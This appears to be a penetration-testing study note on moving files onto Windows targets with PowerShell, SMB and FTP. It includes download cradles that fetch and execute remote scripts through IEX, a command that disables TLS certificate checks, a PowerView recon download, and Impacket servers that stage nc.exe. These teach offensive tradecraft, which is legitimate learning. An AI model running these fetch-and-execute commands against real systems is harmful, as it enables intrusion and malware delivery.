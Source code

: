 ## PowerShell Invoke-WebRequest
---
- `Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1` => **Slower**


Harmj0y has compiled an extensive list of PowerShell download cradles [here](https://gist.github.com/HarmJ0y/bb48307ffa663256e239).

# Common Errors with PowerShell
---
![[Pasted image 20250622064514.png]]
- This can be **bypassed using the parameter `-UseBasicParsing`**.
	- `Invoke-WebRequest https://<ip>/PowerView.ps1  -UseBasicParsing | IEX`

- Another error in PowerShell downloads is related to the **SSL/TLS secure channel** if the certificate is not trusted:
	- `[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}`
	- `IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')`

# SMB Downloads - port TCP/445
---
- Create the SMB Server:
	- `sudo impacket-smbserver share -smb2support /tmp/smbshare`
- download a file from the SMB server in current directory:
	- `copy \\192.168.220.133\share\nc.exe`
- Error: `You can't access this shared folder because your organization's security policies block unauthenticated guest access. These policies help protect your PC from unsafe or malicious devices on the network.`
	- Windows block unauthenticated guest access
	- To transfer files in this scenario, **we can set a username and password using our Impacket SMB server and mount the SMB server** on our windows target machine:
		- `sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test`
	- Mount using: 
		- `net use n: \\192.168.220.133\share /user:test test`

# FTP Downloads - port TCP/21 and TCP/20
---
- Install `pyftpdlib`:
	- `install pyftpdlib --break-system-packages `
- Setting up a Python3 FTP Server (by default, `pyftpdlib` uses port 2121):
	- `python3 -m pyftpdlib --port 21`
- Transfer Using:
	-  `(New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt')`
- ![[Pasted image 20250622065303.png]]
